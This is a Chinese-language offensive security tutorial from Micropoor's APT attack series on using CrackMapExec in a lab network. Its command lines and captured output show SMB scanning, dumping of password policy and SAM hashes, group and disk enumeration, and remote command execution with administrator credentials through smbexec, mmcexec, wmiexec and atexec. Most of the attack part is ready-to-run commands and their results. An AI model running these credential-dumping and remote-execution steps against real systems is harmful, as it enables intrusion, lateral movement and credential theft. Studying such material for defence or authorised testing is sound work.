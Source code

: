 # 专注APT攻击与防御
https://micropoor.blogspot.com/

**注：**请多喝点热水或者凉白开，可预防**肾结石，痛风**等。

CrackMapExec弥补了MSF4下auxiliary，scanner模块下的Command执行方式，但MSF5已解决该问题。在MSF4下，该框架针对后渗透的横向移动经常出现，虽然MSF5已解决该问题，但该框架在配合bloodhound与empire依然目前有一定优势。

安装方式：from Wiki：

**Kali：**
```bash
apt‐get install crackmapexec
```

但作者推荐pipenv安装：
```bash
apt‐get install ‐y libssl‐dev libffi‐dev python‐dev build‐essential
pip install ‐‐user pipenv
git clone ‐‐recursive https://github.com/byt3bl33d3r/CrackMapExec
cd CrackMapExec && pipenv install
pipenv shell
python setup.py install
```

**Mac OSX：**
```bash
pip install ‐‐user crackmapexec
```

默认为100线程
```bash
cme smb 192.168.1.0/24
SMB 192.168.1.4 445 JOHN‐PC [*] Windows 7 Ultimate 7601 Service Pack 1
x64 (name:JOHN‐PC) (domain:JOHN‐PC) (signing:False) (SMBv1:True)
SMB 192.168.1.119 445 WIN03X64 [*] Windows Server 2003 R2 3790 Service
Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
```
![](media/ebb1d4734cf101b0af75130b24dc2797.jpg)

密码策略
```bash
root@John:~# cme smb 192.168.1.119 ‐u administrator ‐p '123456' ‐‐pass ‐pol
SMB 192.168.1.119 445 WIN03X64 [*] Windows Server 2003 R2 3790 Service
Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
SMB 192.168.1.119 445 WIN03X64 [+] WIN03X64\administrator:123456 (Pwn3d!)
SMB 192.168.1.119 445 WIN03X64 [+] Dumping password info for domain: WIN03X64
SMB 192.168.1.119 445 WIN03X64 Minimum password length: None
SMB 192.168.1.119 445 WIN03X64 Password history length: None
SMB 192.168.1.119 445 WIN03X64 Maximum password age: 42 days 22 hours 47 minutes
SMB 192.168.1.119 445 WIN03X64
SMB 192.168.1.119 445 WIN03X64 Password Complexity Flags: 000000
SMB 192.168.1.119 445 WIN03X64 Domain Refuse Password Change: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password Store Cleartext: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password Lockout Admins: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password No Clear Change: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password No Anon Change: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password Complex: 0
SMB 192.168.1.119 445 WIN03X64
SMB 192.168.1.119 445 WIN03X64 Minimum password age: None
SMB 192.168.1.119 445 WIN03X64 Reset Account Lockout Counter: 30 minutes
SMB 192.168.1.119 445 WIN03X64 Locked Account Duration: 30 minutes
SMB 192.168.1.119 445 WIN03X64 Account Lockout Threshold: None
SMB 192.168.1.119 445 WIN03X64 Forced Log off Time: Not Set 
```
![](media/6caecd2d3353752952b4fa71fb5cff9c.jpg)

list hash
```bash
root@John:~# cme smb 192.168.1.119 ‐u administrator ‐p '123456' ‐‐sam
SMB 192.168.1.119 445 WIN03X64 [*] Windows Server 2003 R2 3790 Service
Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
SMB 192.168.1.119 445 WIN03X64 [+] WIN03X64\administrator:123456 (Pwn3d!)
SMB 192.168.1.119 445 WIN03X64 [+] Dumping SAM hashes
SMB 192.168.1.119 445 WIN03X64 Administrator:500:44efce164ab921caaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
SMB 192.168.1.119 445 WIN03X64 Guest:501:aad3b435b51404eeaad3b435b51404ee:67f33d2095bda39fbf6b63fbadf2313a:::
SMB 192.168.1.119 445 WIN03X64 SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:f4d13c67c7608094c9b0e39147f07520:::
SMB 192.168.1.119 445 WIN03X64 IUSR_WIN03X64:1003:dbec20afefb6cc332311fb9822ba61ce:68c22a11c400d91fa4f66ff36b3c15dc:::
SMB 192.168.1.119 445 WIN03X64 IWAM_WIN03X64:1004:ff783381e4e022de176c59bf598409c7:7e456daac229ddceccf5f367aa69a487:::
SMB 192.168.1.119 445 WIN03X64 ASPNET:1008:cc26551b70faffc095feb73db16b65ff:fec6e9e4a08319a1f62cd30447247f88:::
SMB 192.168.1.119 445 WIN03X64 [+] Added 6 SAM hashes to the database
```
![](media/d372f49b841caef362dbced12e0a0149.jpg)

枚举组
```bash
root@John:~# cme smb 192.168.1.119 ‐u administrator ‐p '123456' ‐‐local‐groups
SMB 192.168.1.119 445 WIN03X64 [\*] Windows Server 2003 R2 3790 Service
Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
SMB 192.168.1.119 445 WIN03X64 [+] WIN03X64\administrator:123456 (Pwn3d!)
SMB 192.168.1.119 445 WIN03X64 [+] Enumerated local groups
SMB 192.168.1.119 445 WIN03X64 HelpServicesGroup membercount: 1
SMB 192.168.1.119 445 WIN03X64 IIS_WPG membercount: 4
SMB 192.168.1.119 445 WIN03X64 TelnetClients membercount: 0
SMB 192.168.1.119 445 WIN03X64 Administrators membercount: 1
SMB 192.168.1.119 445 WIN03X64 Backup Operators membercount: 0
SMB 192.168.1.119 445 WIN03X64 Distributed COM Users membercount: 0
SMB 192.168.1.119 445 WIN03X64 Guests membercount: 2
SMB 192.168.1.119 445 WIN03X64 Network Configuration Operators membercount: 0
SMB 192.168.1.119 445 WIN03X64 Performance Log Users membercount: 1
SMB 192.168.1.119 445 WIN03X64 Performance Monitor Users membercount: 0
SMB 192.168.1.119 445 WIN03X64 Power Users membercount: 0
SMB 192.168.1.119 445 WIN03X64 Print Operators membercount: 0
SMB 192.168.1.119 445 WIN03X64 Remote Desktop Users membercount: 0
SMB 192.168.1.119 445 WIN03X64 Replicator membercount: 0
SMB 192.168.1.119 445 WIN03X64 Users membercount: 3
```
![](media/4136be4626226c3dc06862d42b2ede35.jpg)

分别支持4种执行Command，如无--exec-method执行，默认为wmiexec执行。
* mmcexec 
* smbexec 
* wmiexec 
* atexec

基于smbexec执行Command
```bash
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method smbexec ‐x 'net user'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via smbexec
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S \\ ���û��ʻ�
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐
‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S Administrator Guest
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S ����������ϣ�������һ����������
```
![](media/751f7fd147dc4a1810d00aa1b5cde041.jpg)

基于dcom执行Command
```bash
root\@John:\~\# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method mmcexec ‐x 'whoami'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via mmcexec
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S win‐5bmi9hgc42s\administrator
```
![](media/64443a4bd4d862023bcf82a0d8978c41.jpg)

基于wmi执行Command
```bash
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method wmiexec ‐x 'whoami'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via wmiexec
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S win‐5bmi9hgc42s\administrator
```
![](media/f97bf667d2f2bd316cefcb12550a4845.jpg)

基于AT执行Command

目标机：无运行calc进程
![](media/9dbb8af94a4ef3de96eb1476162a3a9d.jpg)

```bash
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method atexec ‐x 'calc'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via atexec
```
![](media/7fdfdafcff3b66eebbcb49a359450a83.jpg)


默认采取wmiexec执行Command，参数为-x
```bash
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐x 'whoami'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S win‐5bmi9hgc42s\administrator
```
![](media/49adc1d483d3df2a5c12b432c61dc00d.jpg)

枚举目标机disk
```bash
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐disks
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Enumerated disks
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S C:
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S D:
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S E:
```

## 附录：
**解决出现：STATUS_PIPE_DISCONNECTED**
![](media/a7a5a32340bdb7651266594f5dd0dbc7.jpg)

改成经典

![](media/cbc0c19d3ddbc53c165d217f51289e5c.jpg)

解决出现错误：UnicodeDecodeError:

升级impacket
![](media/f2f8fc124237c8317e634b28c6ff4212.jpg)

>   Micropoor
